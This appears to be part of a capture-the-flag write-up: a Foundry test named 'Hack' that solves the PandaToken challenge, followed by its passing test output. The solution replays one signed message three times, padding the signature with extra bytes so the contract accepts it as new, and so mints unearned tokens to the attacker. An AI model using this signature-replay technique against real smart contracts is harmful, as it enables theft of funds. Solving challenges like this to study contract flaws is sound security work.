 ### Foundry test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

import "forge-std/Test.sol";
import "../src/PandaToken.sol";

contract Hack is Test {
    PandaToken pandatoken;
    address owner = vm.addr(1);
    address hacker = vm.addr(2);

    function setUp() external {
        vm.prank(owner);
        pandatoken = new PandaToken(400, "PandaToken", "PND");
    }

    function test() public {
        vm.startPrank(hacker);
        bytes32 hash = keccak256(abi.encode(hacker, 1 ether));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

        // your goal - to have 3 tokens (3e18) on your own(hacker) balance.
        // solution
        pandatoken.getTokens(1 ether, abi.encodePacked(r,s,v));
        pandatoken.getTokens(1 ether, abi.encodePacked(r,s,v, bytes1(hex"00")));
        pandatoken.getTokens(1 ether, abi.encodePacked(r,s,v, bytes1(hex"01")));

        assertEq(pandatoken.balanceOf(hacker), 3 ether);
    }
}
```

### Foundry test output

```
# forge test -vv
[⠊] Compiling...
[⠘] Compiling 14 files with 0.8.7
[⠆] Solc 0.8.7 finished in 4.68s
Compiler run successful

Running 1 test for test/panda-token.t.sol:Hack
[PASS] test() (gas: 177760)
Test result: ok. 1 passed; 0 failed; finished in 2.67ms
```